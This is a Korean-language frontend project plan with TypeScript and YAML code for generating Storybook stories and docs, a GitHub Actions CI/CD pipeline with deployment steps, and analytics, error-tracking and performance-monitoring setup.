// backend/src/agents/implementations/storybook-generator.ts
interface StorybookConfiguration {
  stories: ComponentStory[];
  decorators: Decorator[];
  parameters: Parameters;
  addons: string[];
  docs: DocsConfiguration;
}

class StorybookGenerator {
  private storyGenerator: StoryGenerator;
  private docsGenerator: DocsGenerator;
  private configGenerator: ConfigGenerator;

  async generateStorybook(
    components: ComponentCode[],
    theme: Theme,
    framework: string,
  ): Promise<StorybookConfiguration> {
    // 1. 컴포넌트 스토리 생성
    const stories = await this.generateComponentStories(components, framework);

    // 2. 데코레이터 생성
    const decorators = await this.generateDecorators(theme, framework);

    // 3. 파라미터 설정
    const parameters = await this.generateParameters(theme);

    // 4. 애드온 구성
    const addons = this.configureAddons(framework);

    // 5. 문서화 설정
    const docs = await this.generateDocsConfiguration(components);

    // 6. 설정 파일 생성
    const config = await this.generateConfigFiles(framework, {
      stories,
      decorators,
      parameters,
      addons,
      docs,
    });

    return config;
  }

  private async generateComponentStories(
    components: ComponentCode[],
    framework: string,
  ): Promise<ComponentStory[]> {
    const stories: ComponentStory[] = [];

    for (const component of components) {
      const story = await this.storyGenerator.generate(component, framework);
      stories.push(story);
    }

    return stories;
  }
}

class StoryGenerator {
  async generate(component: ComponentCode, framework: string): Promise<ComponentStory> {
    if (framework === 'react') {
      return this.generateReactStory(component);
    } else if (framework === 'vue') {
      return this.generateVueStory(component);
    } else if (framework === 'angular') {
      return this.generateAngularStory(component);
    }

    return this.generateGenericStory(component);
  }

  private generateReactStory(component: ComponentCode): ComponentStory {
    const storyCode = `
import type { Meta, StoryObj } from '@storybook/react';
import { within, userEvent } from '@storybook/testing-library';
import { expect } from '@storybook/jest';
import { ${component.name} } from './${component.name}';

const meta = {
  title: 'Components/${component.category}/${component.name}',
  component: ${component.name},
  parameters: {
    layout: 'centered',
    docs: {
      description: {
        component: '${component.description}'
      }
    }
  },
  tags: ['autodocs'],
  argTypes: {
    ${this.generateArgTypes(component)}
  },
  args: {
    ${this.generateDefaultArgs(component)}
  }
} satisfies Meta<typeof ${component.name}>;

export default meta;
type Story = StoryObj<typeof meta>;

// Default story
export const Default: Story = {
  args: {},
};

// Playground story
export const Playground: Story = {
  args: {},
  parameters: {
    docs: {
      canvas: { sourceState: 'shown' }
    }
  }
};

${this.generateVariantStories(component)}

${this.generateStateStories(component)}

${this.generateInteractionStories(component)}

${this.generateResponsiveStories(component)}

${this.generateA11yStories(component)}
`;

    return {
      name: `${component.name}.stories.tsx`,
      component: component.name,
      code: storyCode,
      stories: this.extractStoryNames(storyCode),
    };
  }

  private generateArgTypes(component: ComponentCode): string {
    const props = this.extractProps(component);

    return props
      .map(
        (prop) => `
    ${prop.name}: {
      control: ${this.getControlType(prop.type)},
      description: '${prop.description}',
      table: {
        type: { summary: '${prop.type}' },
        defaultValue: { summary: ${JSON.stringify(prop.defaultValue)} }
      }
    }`,
      )
      .join(',\n');
  }

  private generateVariantStories(component: ComponentCode): string {
    if (!component.variants) return '';

    return component.variants
      .map(
        (variant) => `
// ${variant.name} variants
${variant.values
  .map(
    (value) => `
export const ${this.capitalize(variant.name)}${this.capitalize(value)}: Story = {
  args: {
    ${variant.name}: '${value}'
  },
  parameters: {
    docs: {
      description: {
        story: '${component.name} with ${variant.name}="${value}"'
      }
    }
  }
};`,
  )
  .join('\n')}
`,
      )
      .join('\n');
  }

  private generateInteractionStories(component: ComponentCode): string {
    const interactions = this.extractInteractions(component);

    if (interactions.length === 0) return '';

    return `
// Interactive story
export const Interactive: Story = {
  args: {},
  play: async ({ canvasElement }) => {
    const canvas = within(canvasElement);
    
    ${interactions
      .map(
        (interaction) => `
    // ${interaction.description}
    ${this.generateInteractionTest(interaction)}
    `,
      )
      .join('\n')}
  }
};`;
  }

  private generateInteractionTest(interaction: Interaction): string {
    switch (interaction.type) {
      case 'click':
        return `
    const ${interaction.element} = await canvas.getByRole('${interaction.role}', { 
      name: ${interaction.name ? `'${interaction.name}'` : 'undefined'} 
    });
    await userEvent.click(${interaction.element});
    ${interaction.assertion ? `await expect(${interaction.assertion}).toBeTruthy();` : ''}`;

      case 'type':
        return `
    const ${interaction.element} = await canvas.getByRole('textbox', { 
      name: '${interaction.name}' 
    });
    await userEvent.type(${interaction.element}, '${interaction.value}');
    await expect(${interaction.element}).toHaveValue('${interaction.value}');`;

      case 'hover':
        return `
    const ${interaction.element} = await canvas.getByRole('${interaction.role}');
    await userEvent.hover(${interaction.element});
    ${interaction.assertion ? `await expect(${interaction.assertion}).toBeVisible();` : ''}`;

      default:
        return '';
    }
  }

  private generateA11yStories(component: ComponentCode): string {
    return `
// Accessibility story
export const Accessible: Story = {
  args: {},
  parameters: {
    a11y: {
      // Accessibility configuration
      config: {
        rules: [
          {
            id: 'color-contrast',
            enabled: true
          }
        ]
      }
    }
  },
  play: async ({ canvasElement }) => {
    const canvas = within(canvasElement);
    
    // Keyboard navigation test
    const element = canvas.getByRole('${this.getComponentRole(component)}');
    element.focus();
    
    // Tab navigation
    await userEvent.tab();
    expect(document.activeElement).toBe(element);
    
    // Enter/Space activation
    await userEvent.keyboard('{Enter}');
    // Add assertions for keyboard activation
  }
};`;
  }
}

// Documentation generator
class ComponentDocumentationGenerator {
  async generateDocumentation(
    component: ComponentCode,
    examples: ComponentStory,
  ): Promise<ComponentDocumentation> {
    const mdxCode = `
import { Canvas, Meta, Story, ArgsTable, Source } from '@storybook/addon-docs';
import { ${component.name} } from './${component.name}';
import * as ${component.name}Stories from './${component.name}.stories';

<Meta title="Components/${component.category}/${component.name}/Docs" />

# ${component.name}

${component.description}

## Overview

The ${component.name} component is designed to ${this.generatePurpose(component)}.

<Canvas>
  <Story of={${component.name}Stories.Default} />
</Canvas>

## Usage

### Basic Usage

\`\`\`tsx
import { ${component.name} } from '@/components/${component.name}';

export default function Example() {
  return (
    <${component.name} ${this.generateBasicProps(component)} />
  );
}
\`\`\`

### Advanced Usage

${this.generateAdvancedExamples(component)}

## Props

<ArgsTable of={${component.name}} />

## Variants

${this.generateVariantDocumentation(component)}

## States

${this.generateStateDocumentation(component)}

## Accessibility

${this.generateAccessibilityDocumentation(component)}

### Keyboard Support

| Key | Description |
|-----|-------------|
${this.generateKeyboardSupport(component)}

### ARIA Attributes

| Attribute | Value | Description |
|-----------|-------|-------------|
${this.generateAriaDocumentation(component)}

## Best Practices

${this.generateBestPractices(component)}

## Common Patterns

${this.generateCommonPatterns(component)}

## API

### Methods

${this.generateMethodDocumentation(component)}

### Events

${this.generateEventDocumentation(component)}

## Migration Guide

${this.generateMigrationGuide(component)}

## Related Components

${this.generateRelatedComponents(component)}
`;

    return {
      name: `${component.name}.mdx`,
      format: 'mdx',
      content: mdxCode,
      component: component.name,
    };
  }

  private generateVariantDocumentation(component: ComponentCode): string {
    if (!component.variants) return 'This component has no variants.';

    return component.variants
      .map(
        (variant) => `
### ${this.capitalize(variant.name)}

${variant.description || `Controls the ${variant.name} of the component.`}

${variant.values
  .map(
    (value) => `
#### ${this.capitalize(value)}

<Canvas>
  <Story of={${component.name}Stories.${this.capitalize(variant.name)}${this.capitalize(value)}} />
</Canvas>

\`\`\`tsx
<${component.name} ${variant.name}="${value}" />
\`\`\`
`,
  )
  .join('\n')}
`,
      )
      .join('\n');
  }

  private generateBestPractices(component: ComponentCode): string {
    const practices = [
      `Use semantic HTML elements when possible`,
      `Provide meaningful \`aria-label\` for icon-only ${component.name}s`,
      `Ensure sufficient color contrast for text content`,
      `Test keyboard navigation thoroughly`,
      `Use appropriate ARIA roles and attributes`,
      `Consider mobile touch targets (minimum 44x44px)`,
      `Implement proper focus management`,
      `Test with screen readers`,
    ];

    return practices.map((practice) => `- ${practice}`).join('\n');
  }
}

// Configuration file generator
class StorybookConfigGenerator {
  async generateConfigFiles(
    framework: string,
    config: StorybookConfiguration,
  ): Promise<ConfigFiles> {
    const files: ConfigFiles = {};

    // Main configuration
    files['main.ts'] = this.generateMainConfig(framework, config);

    // Preview configuration
    files['preview.tsx'] = this.generatePreviewConfig(framework, config);

    // Manager configuration
    files['manager.ts'] = this.generateManagerConfig(config);

    // Theme configuration
    files['theme.ts'] = this.generateThemeConfig(config);

    // Webpack/Vite configuration
    if (framework === 'react' || framework === 'angular') {
      files['webpack.config.js'] = this.generateWebpackConfig(config);
    } else {
      files['vite.config.js'] = this.generateViteConfig(config);
    }

    return files;
  }

  private generateMainConfig(framework: string, config: StorybookConfiguration): string {
    return `
import type { StorybookConfig } from '@storybook/${framework}-vite';

const config: StorybookConfig = {
  stories: [
    '../src/**/*.stories.@(js|jsx|ts|tsx|mdx)',
    '../src/**/*.mdx'
  ],
  addons: [
    '@storybook/addon-essentials',
    '@storybook/addon-interactions',
    '@storybook/addon-a11y',
    '@storybook/addon-coverage',
    '@chromatic-com/storybook',
    'storybook-addon-performance',
    ${config.addons.map((addon) => `'${addon}'`).join(',\n    ')}
  ],
  framework: {
    name: '@storybook/${framework}-vite',
    options: {}
  },
  docs: {
    autodocs: 'tag',
    defaultName: 'Documentation'
  },
  staticDirs: ['../public'],
  features: {
    buildStoriesJson: true,
    interactionsDebugger: true
  }
};

export default config;`;
  }

  private generatePreviewConfig(framework: string, config: StorybookConfiguration): string {
    return `
import type { Preview } from '@storybook/${framework}';
import { themes } from '@storybook/theming';
import { initialize, mswDecorator } from 'msw-storybook-addon';
${config.decorators.map((d) => d.import).join('\n')}

// Initialize MSW
initialize();

const preview: Preview = {
  parameters: {
    actions: { argTypesRegex: '^on[A-Z].*' },
    controls: {
      matchers: {
        color: /(background|color)$/i,
        date: /Date$/,
      },
    },
    docs: {
      theme: themes.light,
      toc: true
    },
    viewport: {
      viewports: {
        mobile: {
          name: 'Mobile',
          styles: { width: '375px', height: '667px' }
        },
        tablet: {
          name: 'Tablet',
          styles: { width: '768px', height: '1024px' }
        },
        desktop: {
          name: 'Desktop',
          styles: { width: '1440px', height: '900px' }
        }
      }
    },
    backgrounds: {
      default: 'light',
      values: [
        { name: 'light', value: '#ffffff' },
        { name: 'dark', value: '#1a1a1a' },
        { name: 'gray', value: '#f5f5f5' }
      ]
    },
    ${Object.entries(config.parameters)
      .map(([key, value]) => `${key}: ${JSON.stringify(value, null, 2)}`)
      .join(',\n    ')}
  },
  decorators: [
    mswDecorator,
    ${config.decorators.map((d) => d.name).join(',\n    ')}
  ],
  globalTypes: {
    theme: {
      name: 'Theme',
      description: 'Global theme for components',
      defaultValue: 'light',
      toolbar: {
        icon: 'paintbrush',
        items: [
          { value: 'light', title: 'Light theme' },
          { value: 'dark', title: 'Dark theme' }
        ]
      }
    },
    locale: {
      name: 'Locale',
      description: 'Internationalization locale',
      defaultValue: 'en',
      toolbar: {
        icon: 'globe',
        items: [
          { value: 'en', right: '🇺🇸', title: 'English' },
          { value: 'es', right: '🇪🇸', title: 'Español' },
          { value: 'fr', right: '🇫🇷', title: 'Français' }
        ]
      }
    }
  }
};

export default preview;`;
  }
}
```

**검증 기준**:

- [ ] Storybook 스토리 자동 생성
- [ ] MDX 문서 생성
- [ ] 인터랙티브 테스트
- [ ] 접근성 테스트 통합

#### SubTask 4.14.3: CI/CD 파이프라인 통합

**담당자**: DevOps 엔지니어  
**예상 소요시간**: 10시간

**작업 내용**:

```yaml
# .github/workflows/frontend-ci-cd.yml
name: Frontend CI/CD Pipeline

on:
  push:
    branches: [main, develop]
    paths:
      - 'frontend/**'
      - '.github/workflows/frontend-*.yml'
  pull_request:
    branches: [main]
    paths:
      - 'frontend/**'

env:
  NODE_VERSION: '18.x'
  PNPM_VERSION: '8'

jobs:
  # 코드 품질 검사
  quality-checks:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v3

      - name: Setup Node.js
        uses: actions/setup-node@v3
        with:
          node-version: ${{ env.NODE_VERSION }}

      - name: Setup pnpm
        uses: pnpm/action-setup@v2
        with:
          version: ${{ env.PNPM_VERSION }}

      - name: Get pnpm store directory
        id: pnpm-cache
        shell: bash
        run: |
          echo "STORE_PATH=$(pnpm store path)" >> $GITHUB_OUTPUT

      - name: Setup pnpm cache
        uses: actions/cache@v3
        with:
          path: ${{ steps.pnpm-cache.outputs.STORE_PATH }}
          key: ${{ runner.os }}-pnpm-store-${{ hashFiles('**/pnpm-lock.yaml') }}
          restore-keys: |
            ${{ runner.os }}-pnpm-store-

      - name: Install dependencies
        run: pnpm install --frozen-lockfile

      - name: Lint code
        run: |
          pnpm lint
          pnpm lint:styles

      - name: Type check
        run: pnpm typecheck

      - name: Format check
        run: pnpm format:check

  # 테스트
  test:
    runs-on: ubuntu-latest
    needs: quality-checks
    strategy:
      matrix:
        test-type: [unit, integration, e2e]
    steps:
      - uses: actions/checkout@v3

      - name: Setup test environment
        uses: ./.github/actions/setup-frontend

      - name: Run ${{ matrix.test-type }} tests
        run: |
          if [ "${{ matrix.test-type }}" = "e2e" ]; then
            pnpm playwright install --with-deps
            pnpm test:e2e
          else
            pnpm test:${{ matrix.test-type }} --coverage
          fi

      - name: Upload coverage
        if: matrix.test-type != 'e2e'
        uses: codecov/codecov-action@v3
        with:
          file: ./coverage/lcov.info
          flags: frontend-${{ matrix.test-type }}

  # 빌드
  build:
    runs-on: ubuntu-latest
    needs: test
    strategy:
      matrix:
        environment: [development, staging, production]
    steps:
      - uses: actions/checkout@v3

      - name: Setup build environment
        uses: ./.github/actions/setup-frontend

      - name: Build application
        run: |
          pnpm build:${{ matrix.environment }}
        env:
          NEXT_PUBLIC_API_URL: ${{ secrets[format('API_URL_{0}', matrix.environment)] }}
          NEXT_PUBLIC_APP_URL: ${{ secrets[format('APP_URL_{0}', matrix.environment)] }}

      - name: Upload build artifacts
        uses: actions/upload-artifact@v3
        with:
          name: build-${{ matrix.environment }}
          path: |
            .next/
            out/
            public/
          retention-days: 7

  # 번들 분석
  bundle-analysis:
    runs-on: ubuntu-latest
    needs: build
    steps:
      - uses: actions/checkout@v3

      - name: Setup environment
        uses: ./.github/actions/setup-frontend

      - name: Analyze bundle
        run: |
          pnpm build:analyze

      - name: Upload bundle report
        uses: actions/upload-artifact@v3
        with:
          name: bundle-report
          path: .next/analyze/

      - name: Comment PR with bundle info
        if: github.event_name == 'pull_request'
        uses: actions/github-script@v6
        with:
          script: |
            const fs = require('fs');
            const bundleStats = JSON.parse(fs.readFileSync('.next/bundle-stats.json'));

            const comment = `## 📦 Bundle Size Report

            | Metric | Size | Change |
            |--------|------|--------|
            | Total Size | ${bundleStats.totalSize} | ${bundleStats.totalChange} |
            | JS Size | ${bundleStats.jsSize} | ${bundleStats.jsChange} |
            | CSS Size | ${bundleStats.cssSize} | ${bundleStats.cssChange} |

            [View detailed report](https://github.com/${{ github.repository }}/actions/runs/${{ github.run_id }})`;

            github.rest.issues.createComment({
              issue_number: context.issue.number,
              owner: context.repo.owner,
              repo: context.repo.repo,
              body: comment
            });

  # Lighthouse CI
  lighthouse:
    runs-on: ubuntu-latest
    needs: build
    steps:
      - uses: actions/checkout@v3

      - name: Download build artifacts
        uses: actions/download-artifact@v3
        with:
          name: build-production

      - name: Run Lighthouse CI
        uses: treosh/lighthouse-ci-action@v9
        with:
          urls: |
            http://localhost:3000
            http://localhost:3000/about
            http://localhost:3000/contact
          budgetPath: ./lighthouse-budget.json
          uploadArtifacts: true
          temporaryPublicStorage: true

  # Visual regression testing
  visual-tests:
    runs-on: ubuntu-latest
    needs: build
    steps:
      - uses: actions/checkout@v3

      - name: Setup environment
        uses: ./.github/actions/setup-frontend

      - name: Run Storybook
        run: |
          pnpm storybook:build
          npx http-server storybook-static -p 6006 &

      - name: Run visual tests
        run: |
          pnpm test:visual

      - name: Upload visual diff
        if: failure()
        uses: actions/upload-artifact@v3
        with:
          name: visual-diff
          path: .chromatic/

  # 배포
  deploy:
    runs-on: ubuntu-latest
    needs: [test, build, lighthouse]
    if: github.ref == 'refs/heads/main' || github.ref == 'refs/heads/develop'
    environment: ${{ github.ref == 'refs/heads/main' && 'production' || 'staging' }}
    steps:
      - uses: actions/checkout@v3

      - name: Download build artifacts
        uses: actions/download-artifact@v3
        with:
          name: build-${{ github.ref == 'refs/heads/main' && 'production' || 'staging' }}

      - name: Deploy to Vercel
        if: matrix.provider == 'vercel'
        run: |
          npx vercel --prod --token=${{ secrets.VERCEL_TOKEN }}

      - name: Deploy to Netlify
        if: matrix.provider == 'netlify'
        run: |
          npx netlify deploy --prod --dir=out --auth=${{ secrets.NETLIFY_TOKEN }}

      - name: Deploy to AWS
        if: matrix.provider == 'aws'
        run: |
          aws s3 sync out/ s3://${{ secrets.S3_BUCKET }} --delete
          aws cloudfront create-invalidation --distribution-id ${{ secrets.CLOUDFRONT_ID }} --paths "/*"
        env:
          AWS_ACCESS_KEY_ID: ${{ secrets.AWS_ACCESS_KEY_ID }}
          AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET_ACCESS_KEY }}

  # 릴리스
  release:
    runs-on: ubuntu-latest
    needs: deploy
    if: github.ref == 'refs/heads/main'
    steps:
      - uses: actions/checkout@v3

      - name: Create release
        uses: semantic-release-action/semantic-release@v3
        env:
          GITHUB_TOKEN: ${{ secrets.GITHUB_TOKEN }}

      - name: Update changelog
        run: |
          pnpm changelog

      - name: Create GitHub release
        uses: softprops/action-gh-release@v1
        with:
          generate_release_notes: true
          files: |
            CHANGELOG.md
            build-report.json
```

```typescript
// scripts/ci-cd-helpers.ts
import { execSync } from 'child_process';
import fs from 'fs';
import path from 'path';

// 번들 크기 분석
export async function analyzeBundleSize() {
  const stats = JSON.parse(fs.readFileSync('.next/build-stats.json', 'utf-8'));

  const previousStats = await getPreviousBundleStats();

  const analysis = {
    totalSize: formatBytes(stats.totalSize),
    totalChange: calculateChange(stats.totalSize, previousStats?.totalSize),
    jsSize: formatBytes(stats.js.size),
    jsChange: calculateChange(stats.js.size, previousStats?.js.size),
    cssSize: formatBytes(stats.css.size),
    cssChange: calculateChange(stats.css.size, previousStats?.css.size),
    chunks: analyzeChunks(stats.chunks),
    recommendations: generateRecommendations(stats),
  };

  fs.writeFileSync('.next/bundle-stats.json', JSON.stringify(analysis, null, 2));

  return analysis;
}

// Lighthouse budget 설정
export const lighthouseBudget = {
  path: '/*',
  timings: [
    {
      metric: 'first-contentful-paint',
      budget: 1000,
    },
    {
      metric: 'largest-contentful-paint',
      budget: 2500,
    },
    {
      metric: 'cumulative-layout-shift',
      budget: 0.1,
    },
    {
      metric: 'total-blocking-time',
      budget: 300,
    },
  ],
  resourceSizes: [
    {
      resourceType: 'script',
      budget: 300,
    },
    {
      resourceType: 'stylesheet',
      budget: 100,
    },
    {
      resourceType: 'image',
      budget: 500,
    },
    {
      resourceType: 'third-party',
      budget: 200,
    },
  ],
  resourceCounts: [
    {
      resourceType: 'script',
      budget: 10,
    },
    {
      resourceType: 'stylesheet',
      budget: 5,
    },
  ],
};

// 배포 전 검증
export async function preDeploymentChecks() {
  const checks = [
    {
      name: 'Build exists',
      test: () => fs.existsSync('.next'),
    },
    {
      name: 'No console logs',
      test: () => {
        const result = execSync('grep -r "console.log" .next/static', {
          encoding: 'utf-8',
          shell: true,
        });
        return !result;
      },
    },
    {
      name: 'Environment variables set',
      test: () => {
        const required = ['NEXT_PUBLIC_API_URL', 'NEXT_PUBLIC_APP_URL'];
        return required.every((key) => process.env[key]);
      },
    },
    {
      name: 'Bundle size within budget',
      test: async () => {
        const stats = await analyzeBundleSize();
        return stats.totalSize < 1000000; // 1MB
      },
    },
  ];

  const results = await Promise.all(
    checks.map(async (check) => ({
      ...check,
      passed: await check.test(),
    })),
  );

  const failed = results.filter((r) => !r.passed);

  if (failed.length > 0) {
    console.error('Pre-deployment checks failed:');
    failed.forEach((check) => console.error(`- ${check.name}`));
    process.exit(1);
  }

  console.log('All pre-deployment checks passed ✓');
}
```

**검증 기준**:

- [ ] 자동화된 CI/CD 파이프라인
- [ ] 다단계 테스트 실행
- [ ] 번들 크기 모니터링
- [ ] 성능 예산 관리

#### SubTask 4.14.4: 모니터링 및 분석 도구 통합

**담당자**: 프론트엔드 엔지니어  
**예상 소요시간**: 8시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/monitoring-integration.ts
interface MonitoringConfiguration {
  analytics: AnalyticsConfig;
  errorTracking: ErrorTrackingConfig;
  performanceMonitoring: PerformanceConfig;
  userTracking: UserTrackingConfig;
  customEvents: CustomEventConfig[];
}

class MonitoringIntegrationGenerator {
  async generateMonitoringSetup(
    projectRequirements: ProjectRequirements,
    framework: string,
  ): Promise<MonitoringConfiguration> {
    const config: MonitoringConfiguration = {
      analytics: await this.setupAnalytics(projectRequirements),
      errorTracking: await this.setupErrorTracking(framework),
      performanceMonitoring: await this.setupPerformanceMonitoring(framework),
      userTracking: await this.setupUserTracking(projectRequirements),
      customEvents: await this.defineCustomEvents(projectRequirements),
    };

    const implementation = await this.generateImplementation(config, framework);

    return {
      ...config,
      implementation,
    };
  }

  private async generateImplementation(
    config: MonitoringConfiguration,
    framework: string,
  ): Promise<MonitoringImplementation> {
    return {
      providers: this.generateProviders(config, framework),
      hooks: this.generateHooks(config, framework),
      middleware: this.generateMiddleware(config, framework),
      utils: this.generateUtils(config),
    };
  }
}

// Analytics Provider
const analyticsProviderCode = `
import { createContext, useContext, useEffect, ReactNode } from 'react';
import { useRouter } from 'next/router';
import * as gtag from '@/lib/gtag';
import { initializeMixpanel, mixpanel } from '@/lib/mixpanel';
import { posthog } from 'posthog-js';

interface AnalyticsContextType {
  trackEvent: (eventName: string, properties?: any) => void;
  trackPageView: (url: string) => void;
  identifyUser: (userId: string, traits?: any) => void;
  trackError: (error: Error, errorInfo?: any) => void;
}

const AnalyticsContext = createContext<AnalyticsContextType | null>(null);

export const AnalyticsProvider = ({ children }: { children: ReactNode }) => {
  const router = useRouter();
  
  useEffect(() => {
    // Initialize analytics services
    if (process.env.NODE_ENV === 'production') {
      initializeMixpanel();
      
      posthog.init(process.env.NEXT_PUBLIC_POSTHOG_KEY!, {
        api_host: process.env.NEXT_PUBLIC_POSTHOG_HOST
      });
    }
    
    // Track route changes
    const handleRouteChange = (url: string) => {
      trackPageView(url);
    };
    
    router.events.on('routeChangeComplete', handleRouteChange);
    return () => {
      router.events.off('routeChangeComplete', handleRouteChange);
    };
  }, [router.events]);
  
  const trackEvent = (eventName: string, properties?: any) => {
    if (process.env.NODE_ENV !== 'production') {
      console.log('[Analytics] Event:', eventName, properties);
      return;
    }
    
    // Google Analytics
    gtag.event({
      action: eventName,
      category: properties?.category || 'general',
      label: properties?.label,
      value: properties?.value
    });
    
    // Mixpanel
    mixpanel.track(eventName, properties);
    
    // PostHog
    posthog.capture(eventName, properties);
  };
  
  const trackPageView = (url: string) => {
    if (process.env.NODE_ENV !== 'production') {
      console.log('[Analytics] Page view:', url);
      return;
    }
    
    // Google Analytics
    gtag.pageview(url);
    
    // Mixpanel
    mixpanel.track('Page View', { url });
    
    // PostHog
    posthog.capture('$pageview', { url });
  };
  
  const identifyUser = (userId: string, traits?: any) => {
    if (process.env.NODE_ENV !== 'production') {
      console.log('[Analytics] Identify user:', userId, traits);
      return;
    }
    
    // Mixpanel
    mixpanel.identify(userId);
    if (traits) {
      mixpanel.people.set(traits);
    }
    
    // PostHog
    posthog.identify(userId, traits);
  };
  
  const trackError = (error: Error, errorInfo?: any) => {
    trackEvent('error', {
      message: error.message,
      stack: error.stack,
      ...errorInfo
    });
  };
  
  return (
    <AnalyticsContext.Provider value={{
      trackEvent,
      trackPageView,
      identifyUser,
      trackError
    }}>
      {children}
    </AnalyticsContext.Provider>
  );
};

export const useAnalytics = () => {
  const context = useContext(AnalyticsContext);
  if (!context) {
    throw new Error('useAnalytics must be used within AnalyticsProvider');
  }
  return context;
};`;

// Error Tracking Setup
const errorTrackingCode = `
import * as Sentry from '@sentry/nextjs';
import { ErrorBoundary } from 'react-error-boundary';

// Sentry initialization
Sentry.init({
  dsn: process.env.NEXT_PUBLIC_SENTRY_DSN,
  environment: process.env.NODE_ENV,
  tracesSampleRate: process.env.NODE_ENV === 'production' ? 0.1 : 1.0,
  debug: process.env.NODE_ENV === 'development',
  integrations: [
    new Sentry.BrowserTracing(),
    new Sentry.Replay({
      maskAllText: false,
      blockAllMedia: false,
    }),
  ],
  beforeSend(event, hint) {
    if (event.exception && process.env.NODE_ENV === 'development') {
      console.error('Sentry Event:', event, hint);
    }
    return event;
  },
  replaysSessionSampleRate: 0.1,
  replaysOnErrorSampleRate: 1.0,
});

// Error Boundary Component
export const AppErrorBoundary = ({ children }: { children: ReactNode }) => {
  const { trackError } = useAnalytics();
  
  return (
    <ErrorBoundary
      FallbackComponent={ErrorFallback}
      onError={(error, errorInfo) => {
        console.error('Error caught by boundary:', error, errorInfo);
        
        // Send to Sentry
        Sentry.captureException(error, {
          contexts: {
            react: {
              componentStack: errorInfo.componentStack
            }
          }
        });
        
        // Track in analytics
        trackError(error, errorInfo);
      }}
      onReset={() => {
        // Clear any error state
        window.location.href = '/';
      }}
    >
      {children}
    </ErrorBoundary>
  );
};

// Error Fallback Component
const ErrorFallback = ({ error, resetErrorBoundary }: any) => {
  return (
    <div className="min-h-screen flex items-center justify-center">
      <div className="text-center p-8">
        <h1 className="text-2xl font-bold mb-4">Something went wrong</h1>
        <p className="text-gray-600 mb-4">{error.message}</p>
        <button
          onClick={resetErrorBoundary}
          className="px-4 py-2 bg-blue-500 text-white rounded hover:bg-blue-600"
        >
          Try again
        </button>
      </div>
    </div>
  );
};`;

// Performance Monitoring
const performanceMonitoringCode = `
import { onCLS, onFID, onFCP, onLCP, onTTFB, onINP } from 'web-vitals';
import { useEffect } from 'react';

interface PerformanceMetric {
  name: string;
  value: number;
  rating: 'good' | 'needs-improvement' | 'poor';
  delta: number;
  id: string;
}

export const usePerformanceMonitoring = () => {
  const { trackEvent } = useAnalytics();
  
  useEffect(() => {
    // Core Web Vitals
    onCLS(sendMetric);
    onFID(sendMetric);
    onFCP(sendMetric);
    onLCP(sendMetric);
    onTTFB(sendMetric);
    onINP(sendMetric);
    
    function sendMetric(metric: PerformanceMetric) {
      // Send to analytics
      trackEvent('web_vitals', {
        metric_name: metric.name,
        metric_value: metric.value,
        metric_rating: metric.rating,
        metric_delta: metric.delta,
        metric_id: metric.id
      });
      
      // Send to custom monitoring endpoint
      if (process.env.NODE_ENV === 'production') {
        fetch('/api/metrics', {
          method: 'POST',
          headers: { 'Content-Type': 'application/json' },
          body: JSON.stringify({
            type: 'web-vital',
            metric,
            timestamp: Date.now(),
            url: window.location.href,
            userAgent: navigator.userAgent
          })
        }).catch(console.error);
      }
    }
    
    // Custom performance marks
    if ('performance' in window) {
      // Mark important milestones
      performance.mark('app-interactive');
      
      // Measure specific operations
      measureComponentPerformance();
      measureAPIPerformance();
    }
  }, [trackEvent]);
};

const measureComponentPerformance = () => {
  // React Performance API integration
  if (process.env.NODE_ENV === 'development') {
    const Profiler = require('react').Profiler;
    
    window.__REACT_PROFILE_CALLBACKS__ = {
      onRender(id, phase, actualDuration, baseDuration, startTime, commitTime) {
        console.log('Component Performance:', {
          component: id,
          phase,
          actualDuration,
          baseDuration
        });
        
        // Send slow renders to monitoring
        if (actualDuration > 16) { // Slower than 60fps
          trackEvent('slow_render', {
            component: id,
            phase,
            duration: actualDuration
          });
        }
      }
    };
  }
};

const measureAPIPerformance = () => {
  // Intercept fetch to measure API performance
  const originalFetch = window.fetch;
  
  window.fetch = async (...args) => {
    const startTime = performance.now();
    const url = args[0].toString();
    
    try {
      const response = await originalFetch(...args);
      const endTime = performance.now();
      const duration = endTime - startTime;
      
      // Track API performance
      if (duration > 1000) { // Slow API calls
        trackEvent('slow_api_call', {
          url,
          duration,
          status: response.status
        });
      }
      
      return response;
    } catch (error) {
      const endTime = performance.now();
      const duration = endTime - startTime;
      
      trackEvent('api_error', {
        url,
        duration,
        error: error.message
      });
      
      throw error;
    }
  };
};`;

// User Behavior Tracking
const userTrackingCode = `
import { useEffect, useRef } from 'react';
import { useRouter } from 'next/router';

interface UserSession {
  sessionId: string;
  userId?: string;
  startTime: number;
  pageViews: number;
  events: any[];
  device: {
    type: string;
    browser: string;
    os: string;
  };
}

export const useUserTracking = () => {
  const { trackEvent, identifyUser } = useAnalytics();
  const router = useRouter();
  const sessionRef = useRef<UserSession>();
  
  useEffect(() => {
    // Initialize session
    if (!sessionRef.current) {
      sessionRef.current = {
        sessionId: generateSessionId(),
        startTime: Date.now(),
        pageViews: 0,
        events: [],
        device: detectDevice()
      };
    }
    
    // Track session start
    trackEvent('session_start', {
      sessionId: sessionRef.current.sessionId,
      device: sessionRef.current.device
    });
    
    // Track page views
    const handleRouteChange = (url: string) => {
      if (sessionRef.current) {
        sessionRef.current.pageViews++;
        
        trackEvent('page_view', {
          url,
          sessionId: sessionRef.current.sessionId,
          pageViewNumber: sessionRef.current.pageViews,
          timeOnSite: Date.now() - sessionRef.current.startTime
        });
      }
    };
    
    router.events.on('routeChangeComplete', handleRouteChange);
    
    // Track engagement metrics
    trackEngagement();
    
    // Track rage clicks
    trackRageClicks();
    
    // Track form abandonment
    trackFormAbandonment();
    
    // Session end tracking
    const handleBeforeUnload = () => {
      if (sessionRef.current) {
        const sessionDuration = Date.now() - sessionRef.current.startTime;
        
        navigator.sendBeacon('/api/analytics', JSON.stringify({
          type: 'session_end',
          sessionId: sessionRef.current.sessionId,
          duration: sessionDuration,
          pageViews: sessionRef.current.pageViews,
          events: sessionRef.current.events.length
        }));
      }
    };
    
    window.addEventListener('beforeunload', handleBeforeUnload);
    
    return () => {
      router.events.off('routeChangeComplete', handleRouteChange);
      window.removeEventListener('beforeunload', handleBeforeUnload);
    };
  }, [router.events, trackEvent]);
  
  // Engagement tracking
  const trackEngagement = () => {
    let idleTime = 0;
    let isIdle = false;
    
    const resetIdleTimer = () => {
      idleTime = 0;
      
      if (isIdle) {
        isIdle = false;
